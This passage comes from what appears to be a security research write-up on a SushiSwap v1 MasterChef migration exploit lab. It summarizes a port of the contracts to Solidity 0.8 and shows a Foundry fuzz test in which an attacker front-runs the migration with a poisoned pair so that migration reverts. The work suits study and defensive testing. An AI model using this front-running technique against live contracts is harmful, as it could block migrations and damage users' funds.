 #### Key changes included:

* Updating all pragma statements

* Removing SafeMath and adjusting arithmetic since 0.8+ has built-in overflow checks

* Adapting OpenZeppelin’s Ownable to require an initial owner

* Fixing type mismatches between uint8 and uint256

* Replacing deprecated constructs like now with block.timestamp

### Stateless Fuzzing Approach

For the stateless fuzzing experiment, I took the original POC's test function and randomized the amount of token1 while keeping token0 constant. The test ensured that regardless of the attacker’s fuzzed amounts, the migration would consistently revert as expected, confirming the exploitability of the **first mint** assumption under varied conditions.

The code below shows a snippet of the stateless fuzz test, and the full file can be found [here](https://github.com/0xh4ty/sushiswap-v1-exploit-lab/blob/main/test/MasterChefMigration.t.sol).

```solidity
    function testMigrationBlockedByFrontRunStatelessFuzz(uint256 fuzzAmount) public {
        // attacker front-runs with a fuzzed poisoned pair
        vm.startPrank(attacker);

        address newPairAddr = newFactory.getPair(address(token0), address(token1));
        newPair = UniswapV2Pair(newPairAddr);
        newLP = IERC20(address(newPair));

        uint256 amount0 = 1 ether;
        uint256 amount1 = bound(fuzzAmount, 2 ether, 10_000 ether);

        deal(address(newPair.token0()), attacker, amount0);
        deal(address(newPair.token1()), attacker, amount1);

        IERC20(newPair.token0()).transfer(address(newPair), amount0);
        IERC20(newPair.token1()).transfer(address(newPair), amount1);

        newPair.mint(attacker);
        vm.stopPrank();

        // set migrator after attacker has poisoned
        migrator = new Migrator(address(chef), address(oldFactory), newFactory, block.number);
        chef.setMigrator(IMigratorChef(address(migrator)));
        newFactory.setMigrator(address(migrator));

        vm.expectRevert("migrate: bad");
        chef.migrate(0);
    }
```

### Stateful Fuzzing and Invariant Testing

